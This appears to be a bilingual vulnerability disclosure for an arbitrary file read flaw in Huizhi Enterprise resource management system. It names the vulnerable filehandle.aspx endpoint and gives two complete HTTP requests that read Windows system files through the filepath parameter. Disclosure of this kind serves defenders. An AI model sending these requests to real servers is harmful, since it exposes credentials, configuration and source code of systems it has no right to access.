


##  汇智企业资源管理系统 存在任意文件读取漏洞

### Info

The program Huizhi Enterprise resource management system developed by Shenzhen Huizhi Software Development Co., Ltd. has any file reading vulnerability, which can read files at any system location: Sensitive data leakage: An attacker can exploit any file reading vulnerability to obtain sensitive information on the server, such as database connection strings, password files, API keys, etc., resulting in data leakage and potential losses. Profile theft: An attacker can read the profile of a Web system to obtain the structure, deployment details, and other critical information for further attack. Source code disclosure: An attacker can access the source code of a Web system, analyze and identify potential security vulnerabilities, or insert malicious code to achieve long-term control. Leak path: / nssys/common/filehandle. Aspx? filepath=C%3a%2fwindows%2fwin%2eini can read the windows configuration file windows.ini

------

深圳汇智软件开发有限公司 开发的程序 汇智企业资源管理系统 存在任意文件读取漏洞,可以读取任意系统位置文件：敏感数据泄露：攻击者可以利用任意文件读取漏洞获取服务器上的敏感信息，如数据库连接字符串、密码文件、API密钥等，从而导致数据泄露和潜在的损失。配置文件窃取：攻击者可通过读取Web系统的配置文件，获取网站的结构、部署细节和其他关键信息，以便进一步实施攻击。源代码泄露：攻击者可以访问Web系统的源代码，分析并找出潜在的安全漏洞，或插入恶意代码以实现长期控制。漏洞路径为：/nssys/common/filehandle.aspx?filepath=C%3a%2fwindows%2fwin%2eini可以读取windows配置文件 windows.ini

### Vuln information


HTTP data

```http
GET /nssys/common/filehandle.aspx?filepath=C%3a%2fwindows%2fwin%2eini HTTP/1.1
Host: 127.0.0.1:8515
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/115.0.5790.171 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: ASP.NET_SessionId=ckf5rppwogrghtsiog5mhnh3
Connection: keep-alive
```



```
GET /nssys/common/filehandle.aspx?filepath=C%3a%2fwindows%2fdebug%2fnetsetup%2elog HTTP/1.1
Host: 127..0.0.1:8515
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/115.0.5790.171 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: ASP.NET_SessionId=ckf5rppwogrghtsiog5mhnh3
Connection: keep-alive
```

